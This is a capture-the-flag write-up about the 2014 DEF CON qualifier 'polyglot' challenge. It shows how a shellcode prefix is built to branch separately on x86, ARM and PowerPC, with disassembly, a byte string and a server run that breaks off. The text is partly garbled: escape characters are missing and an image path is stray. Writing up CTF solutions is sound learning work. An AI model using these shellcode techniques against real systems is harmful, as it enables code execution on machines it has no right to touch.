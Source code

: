 <pre class="brush: plain; title: ; notranslate" title="">ARM:
0x00000000: streq r0, [r4, #-0x40]      &lt;--- armel (doesn't store anything so it's good to go)
0x00000004: andmi r0, r0, #2            &lt;--- armel (who cares...)
0x00000008: andmi r0, r0, r5, lsl #8    &lt;--- armeb
0x0000000c: andeq r0, r0, #0x42         &lt;--- armeb
PPC:
0x00000000: bcl 0, 0, .+0x404           &lt;--- excelent b to 0x404 for PowerPC
x86:
0x00000000: inc eax
0x00000001: add byte ptr [eax + 0x42000002], al &lt;--- brilliant write to who cares at stack

</pre>

But I abandoned this as I thought that 0&#215;404 was wrong (eg. not all data was transferred ) So tnx to x86 instructions set where we can have arbitrary instruction size, I&#8217;ve decided to use next approach.

Next step was, lets make dummy instruction which will do **jmp _\_overPPC\_arm** and be almost like NOP for all other platforms. One pair of 2 byte instructions came to my mind. **xor eax, eax/jz __x86 shellcode**, and many other options here (eg. stc/jb, clc/jnb, inc eax/jns, dec eax/js, test eax,eax/jz, test esp, esp/jnz, cmp/or/sub, endless options.):

<pre class="brush: plain; title: ; notranslate" title="">code = "";
code += "x33xc0x74x10";            #didn't put it after for armeb as bswaped
                                                            #ppc doesn't give right results. but it's
                                                            #do nothing for armeb
code += "x48x00x01x00";            #to test for armel
code += "x00x01x00x48";            #to test for armeb

and capstone gives us back:


ARM:
0x00000000: rsbsne ip, r4, r3, lsr r0           #x86 code
0x00000004: andeq r0, r1, r8, asr #32        #B for PPC as armel
0x00000008: stmdami r0, {r8}                     #B for PPC as armeb
PPC:
0x00000000: addic r30, r0, 0x7410            #x86 code
0x00000004: b .+0x100                             #our bracnh looks good...

</pre>

Now we place PowerPPC code at 0&#215;104 offset and there we go. Running my assembly code against server gives back:

<pre class="brush: plain; title: ; notranslate" title="">---------------------------------------------------------------------------------------------------------
xxx# python sendshellcode.py
Password:


Give me shellcode.  You have up to 0x1000 bytes.  All GPRs are 0.  PC is 0x41000000.  SP is 0x42000000.

Throwing shellcode against linux26-x86.(http://services.2014.shallweplayaga.me/polyglot_9d64fa98df6ee55e1a5baf0a170d3367)


 [1]: http://deroko.phearless.org/polyglot/polyglot_9d64fa98df6ee55e1a5baf0a170d3367
 [2]: http://deroko.phearless.org/polyglot/polyglot_6a3875ce36a55889427542903cd43893
 [3]: http://deroko.phearless.org/polyglot/polyglot_c0e7a26d7ce539efbecc970c154de844
 [4]: http://deroko.phearless.org/polyglot/polyglot_5b78585342a3c116aebb5a9b45e88836